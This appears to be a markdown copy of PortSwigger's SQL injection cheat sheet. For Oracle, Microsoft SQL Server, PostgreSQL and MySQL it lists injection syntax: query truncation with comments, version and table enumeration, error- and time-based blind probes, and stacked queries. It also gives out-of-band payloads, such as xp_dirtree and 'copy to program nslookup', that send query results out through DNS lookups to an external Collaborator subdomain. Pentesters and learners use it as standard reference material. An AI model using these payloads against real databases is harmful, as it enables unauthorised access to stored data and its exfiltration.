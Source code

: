 # 2 - Cheatsheet



{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}



### String concatenation <a id="string-concatenation"></a>

 You can concatenate together multiple strings to make a single string.

|  Oracle |  `'foo'||'bar'` |
| :--- | :--- |
|  Microsoft |  `'foo'+'bar'` |
|  PostgreSQL |  `'foo'||'bar'` |
|  MySQL |  `'foo' 'bar'` \[Note the space between the two strings\]  `CONCAT('foo','bar')`  |

### Substring <a id="substring"></a>

 You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

|  Oracle |  `SUBSTR('foobar', 4, 2)` |
| :--- | :--- |
|  Microsoft |  `SUBSTRING('foobar', 4, 2)` |
|  PostgreSQL |  `SUBSTRING('foobar', 4, 2)` |
|  MySQL |  `SUBSTRING('foobar', 4, 2)` |

### Comments <a id="comments"></a>

 You can use comments to truncate a query and remove the portion of the original query that follows your input.

|  Oracle |  `--comment`  |
| :--- | :--- |
|  Microsoft |  `--comment  /*comment*/` |
|  PostgreSQL |  `--comment  /*comment*/` |
|  MySQL |  `#comment`  `-- comment` \[Note the space after the double dash\]  `/*comment*/` |

### Database version <a id="database-version"></a>

 You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|  Oracle |  `SELECT banner FROM v$version  SELECT version FROM v$instance`  |
| :--- | :--- |
|  Microsoft |  `SELECT @@version` |
|  PostgreSQL |  `SELECT version()` |
|  MySQL |  `SELECT @@version` |

### Database contents <a id="database-contents"></a>

 You can list the tables that exist in the database, and the columns that those tables contain.

|  Oracle |  `SELECT * FROM all_tables  SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| :--- | :--- |
|  Microsoft |  `SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |
|  PostgreSQL |  `SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |
|  MySQL |  `SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |

### Conditional errors <a id="conditional-errors"></a>

 You can test a single boolean condition and trigger a database error if the condition is true.

|  Oracle |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` |
| :--- | :--- |
|  Microsoft |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
|  PostgreSQL |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` |
|  MySQL |  `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

### Batched \(or stacked\) queries <a id="batched-or-stacked-queries"></a>

 You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

|  Oracle |  `Does not support batched queries.` |
| :--- | :--- |
|  Microsoft |  `QUERY-1-HERE; QUERY-2-HERE` |
|  PostgreSQL |  `QUERY-1-HERE; QUERY-2-HERE` |
|  MySQL |  `QUERY-1-HERE; QUERY-2-HERE` |

**Note**

 With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays <a id="time-delays"></a>

 You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|  Oracle |  `dbms_pipe.receive_message(('a'),10)` |
| :--- | :--- |
|  Microsoft |  `WAITFOR DELAY '0:0:10'` |
|  PostgreSQL |  `SELECT pg_sleep(10)` |
|  MySQL |  `SELECT sleep(10)` |

### Conditional time delays <a id="conditional-time-delays"></a>

 You can test a single boolean condition and trigger a time delay if the condition is true.

|  Oracle |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| :--- | :--- |
|  Microsoft |  `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` |
|  PostgreSQL |  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
|  MySQL |  `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` |

### DNS lookup <a id="dns-lookup"></a>

 You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|  Oracle |  The following technique leverages an XML external entity \([XXE](https://portswigger.net/web-security/xxe)\) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`   The following technique works on fully patched Oracle installations, but requires elevated privileges:  `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')` |
| :--- | :--- |
|  Microsoft |  `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'` |
|  PostgreSQL |  `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'` |
|  MySQL |  The following techniques work on Windows only:  `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`  `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'` |

### DNS lookup with data exfiltration <a id="dns-lookup-with-data-exfiltration"></a>

 You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|  Oracle |  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual` |
| :--- | :--- |
|  Microsoft |  `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')` |
|  PostgreSQL |  `create OR replace function f() returns void as $$  declare c text;  declare p text;  begin  SELECT into p (SELECT YOUR-QUERY-HERE);  c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';  execute c;  END;  $$ language plpgsql security definer;  SELECT f();` |
|  MySQL |  The following technique works on Windows only:  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'` |

